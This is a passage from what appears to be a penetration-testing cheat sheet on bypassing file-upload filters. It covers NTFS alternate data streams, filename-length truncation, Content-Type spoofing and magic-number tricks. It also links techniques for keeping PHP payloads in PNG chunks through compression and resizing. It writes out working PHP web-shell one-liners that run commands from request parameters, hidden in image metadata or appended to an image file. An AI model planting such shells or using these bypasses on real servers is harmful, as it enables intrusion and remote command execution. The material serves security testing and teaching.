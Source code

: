         - _ex: file.php.png_
    7. Using **NTFS alternate data stream (ADS)** in **Windows**. In this case, a colon character “:” will be inserted after a forbidden extension and before a permitted one. As a result, an **empty file with the forbidden extension** will be created on the server (e.g. “file.asax:.jpg”). This file might be edited later using other techniques such as using its short filename. The “**::$data**” pattern can also be used to create non-empty files. Therefore, adding a dot character after this pattern might also be useful to bypass further restrictions (.e.g. “file.asp::$data.”)
        
    8. Try to break the filename limits. The valid extension gets cut off. And the malicious PHP gets left. AAA<--SNIP-->AAA.php
        
        ```
        # Linux maximum 255 bytes
        /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 255
        Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4 # minus 4 here and adding .png
        # Upload the file and check response how many characters it alllows. Let's say 236
        python -c 'print "A" * 232'
        AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
        # Make the payload
        AAA<--SNIP 232 A-->AAA.php.png
        
        ```
        
- **Bypass Content-Type, Magic Number, Compression & Resizing**
    
    - Bypass **Content-Type** checks by setting the **value** of the **Content-Type** **header** to: _image/png_ , _text/plain , application/octet-stream_
        1. Content-Type **wordlist**: [https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt](https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt)
    - Bypass **magic number** check by adding at the beginning of the file the **bytes of a real image** (confuse the _file_ command). Or introduce the shell inside the **metadata**:\ `exiftool -Comment="<?php echo 'Command:'; if($_POST){system($_POST['cmd']);} __halt_compiler();" img.jpg`\ `\\\\` or you could also **introduce the payload directly** in an image:\ `echo '<?php system($_REQUEST['cmd']); ?>' >> img.png`
    - If **compressions is being added to your image**, for example using some standard PHP libraries like [PHP-GD](https://www.php.net/manual/fr/book.image.php), the previous techniques won't be useful it. However, you could use the **PLTE chunk** **[technique defined here](https://www.synacktiv.com/publications/persistent-php-payloads-in-pngs-how-to-inject-php-code-in-an-image-and-keep-it-there.html)** to insert some text that will **survive compression**.
        - **[Github with the code](https://github.com/synacktiv/astrolock/blob/main/payloads/generators/gen%5C_plte%5C_png.php)**
    - The web page cold also be **resizing** the **image**, using for example the PHP-GD functions `imagecopyresized` or `imagecopyresampled`. However, you could use the **IDAT chunk** **[technique defined here](https://www.synacktiv.com/publications/persistent-php-payloads-in-pngs-how-to-inject-php-code-in-an-image-and-keep-it-there.html)** to insert some text that will **survive compression**.
        - **[Github with the code](https://github.com/synacktiv/astrolock/blob/main/payloads/generators/gen%5C_idat%5C_png.php)**
    - Another technique to make a payload that **survives an image resizing**, using the PHP-GD function `thumbnailImage`. However, you could use the **tEXt chunk** **[technique defined here](https://www.synacktiv.com/publications/persistent-php-payloads-in-pngs-how-to-inject-php-code-in-an-image-and-keep-it-there.html)** to insert some text that will **survive compression**.
        - **[Github with the code](https://github.com/synacktiv/astrolock/blob/main/payloads/generators/gen%5C_tEXt%5C_png.php)**
- **Other Tricks to check**
    